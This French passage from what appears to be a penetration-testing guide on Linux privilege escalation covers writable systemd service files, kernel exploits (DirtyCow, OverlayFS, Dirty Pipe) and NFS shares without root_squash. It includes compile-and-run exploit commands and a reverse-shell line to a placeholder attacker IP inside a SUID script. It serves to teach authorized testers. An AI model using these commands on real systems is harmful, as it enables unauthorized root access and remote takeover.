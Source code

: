 #### Exploitation des fichiers de service faibles

Les fichiers de service systemd peuvent être vulnérables :

```bash
# Rechercher des fichiers de service modifiables
find /etc/systemd/system -type f -writable 2>/dev/null
find /lib/systemd/system -type f -writable 2>/dev/null
```

Si vous pouvez modifier un fichier de service, vous pouvez changer la commande exécutée au démarrage du service.

#### Exploitation des vulnérabilités du noyau

Les exploits de noyau sont puissants mais risqués. Voici quelques exemples notables :

1. **DirtyCow (CVE-2016-5195)** : Affecte les noyaux Linux 2.x à 4.8.3
   ```bash
   # Vérifier la version du noyau
   uname -a
   # Compiler et exécuter l'exploit
   gcc -pthread dirty.c -o dirty -lcrypt
   ./dirty password
   ```

2. **OverlayFS (CVE-2021-3493)** : Affecte Ubuntu 14.04 - 20.10
   ```bash
   gcc -o exploit exploit.c
   ./exploit
   ```

3. **Dirty Pipe (CVE-2022-0847)** : Affecte les noyaux Linux 5.8 à 5.16.11
   ```bash
   gcc -o dirtypipe dirtypipe.c
   ./dirtypipe
   ```

**⚖️ Rappel ROE (Rules of Engagement)** : Les exploits de noyau peuvent causer des instabilités système ou des crashs. Utilisez-les uniquement lorsque c'est explicitement autorisé dans le cadre de votre engagement, et idéalement en dernier recours.

#### Exploitation de NFS avec root_squash désactivé

Si un serveur NFS est configuré sans root_squash, il est possible d'exploiter cette configuration :

```bash
# Vérifier les partages NFS
showmount -e <IP_cible>

# Monter le partage
mkdir /tmp/nfs
mount -t nfs <IP_cible>:/partage /tmp/nfs

# Créer un binaire SUID
echo '#!/bin/bash' > /tmp/nfs/shell.sh
echo 'bash -i >& /dev/tcp/<IP_attaquant>/4444 0>&1' >> /tmp/nfs/shell.sh
chmod +xs /tmp/nfs/shell.sh
```
